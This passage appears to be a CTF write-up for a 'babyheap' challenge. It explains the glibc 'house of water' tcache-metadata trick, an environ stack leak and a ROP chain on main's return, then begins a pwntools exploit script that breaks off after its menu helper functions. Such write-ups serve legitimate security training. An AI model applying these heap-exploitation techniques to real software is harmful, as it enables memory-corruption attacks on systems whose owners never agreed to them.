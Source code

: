 [house of water](https://github.com/shellphish/how2heap/blob/master/glibc_2.39/house_of_water.c) is a trick to abuse the tcache metadata, which is the `tcache_perthread_struct`, we can first alloc a chunk to overwrite the 0x40-sized tcache entry for our target addresses, then each time we malloc(0x30), a chunk at the target address will be returned. Also, we can rewrite the tcache entry pointer for multiple times, which makes it easier for us to do arbitrary alloc, saving the trouble of playing tcache poisoning.

### further exploit

With the libc leak, now we can do arbitrary alloc anywhere in memory due to the house of water technique, so we arbitrary alloc to libc's environ and leak the stack address.

Then we arbitrary alloc to stack and write ROP to the return address of main, thus finishing the exploit

### exp
credit to teammate UDP for the template of this exploit

```py
#!/usr/bin/env python3

from pwn import *

elf = ELF("./babyheap")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = elf

context(arch='amd64', os='linux', log_level='debug')

# p = process(elf.path)
p = remote("baby-heap.nc.jctf.pro", 1337)

def menu():
    return p.recvuntil(b'> ')

def malloc(idx, data = b''):
    p.sendline(b'1')
    p.sendlineafter(b'Index? ', str(idx).encode())
    p.sendlineafter(b'Content? Content? ', data)
    return menu()

def read(idx):
    p.sendline(b'2')
    p.sendlineafter(b'Index? ', str(idx).encode())
    data = p.recvuntil(b'Menu:')[:-5]
    menu()
    return data

def update(idx, data):
    p.sendline(b'3')
    p.sendlineafter(b'Index? ', str(idx).encode())
    p.sendlineafter(b'Content? ', data)
    return menu()

def free(idx):
    p.sendline(b'4')
    p.sendlineafter(b'Index? ', str(idx).encode())
    return menu()

def rosa_read(idx):
    p.sendline(b'2')
    p.sendlineafter(b'Index? ', str(idx).encode())

```